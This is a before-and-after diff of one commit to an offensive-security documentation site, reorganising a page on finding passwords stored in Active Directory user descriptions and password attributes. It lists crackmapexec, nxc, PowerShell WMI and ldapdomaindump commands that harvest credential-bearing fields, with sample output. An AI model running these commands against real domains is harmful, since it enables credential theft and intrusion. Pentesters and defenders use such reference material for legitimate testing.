

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/pwd-comments.md, in a window 1280 px wide. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded.

````diff
--- a/docs/active-directory/pwd-comments.md
+++ b/docs/active-directory/pwd-comments.md
@@ -1,23 +1,27 @@
 # Password - AD User Comment
 
-```powershell
-$ crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
-$ crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
-GET-DESC... 10.0.2.11       389    dc01    [+] Found following users:
-GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
-GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
-```
+There are 3-4 fields that seem to be common in most Active Directory schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.
 
-There are 3-4 fields that seem to be common in most AD schemas: `UserPassword`, `UnixUserPassword`, `unicodePwd` and `msSFU30Password`.
+* Password in User Description
+    ```powershell
+    crackmapexec ldap domain.lab -u 'username' -p 'password' -M user-desc
+    crackmapexec ldap 10.0.2.11 -u 'username' -p 'password' --kdcHost 10.0.2.11 -M get-desc-users
+    GET-DESC... 10.0.2.11       389    dc01    [+] Found following users:
+    GET-DESC... 10.0.2.11       389    dc01    User: Guest description: Built-in account for guest access to the computer/domain
+    GET-DESC... 10.0.2.11       389    dc01    User: krbtgt description: Key Distribution Center Service Account
+    ```
 
-```powershell
-enum4linux | grep -i desc
+* Get `unixUserPassword` attribute from all users in ldap
+    ```ps1
+    nxc ldap 10.10.10.10 -u user -p pass -M get-unixUserPassword -M getUserPassword
+    ```
 
-Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
-```
+* Native Powershell command
+    ```powershell
+    Get-WmiObject -Class Win32_UserAccount -Filter "Domain='COMPANYDOMAIN' AND Disabled='False'" | Select Name, Domain, Status, LocalAccount, AccountType, Lockout, PasswordRequired,PasswordChangeable, Description, SID
+    ```
 
-or dump the Active Directory and `grep` the content.
-
-```powershell
-ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
-```
+* Dump the Active Directory and `grep` the content.
+    ```powershell
+    ldapdomaindump -u 'DOMAIN\john' -p MyP@ssW0rd 10.10.10.10 -o ~/Documents/AD_DUMP/
+    ```
````
Also changed, not shown: docs/cloud/azure/azure-requirements.md (+8 -0 lines), docs/redteam/evasion/windows-defenses.md (+22 -0 lines).
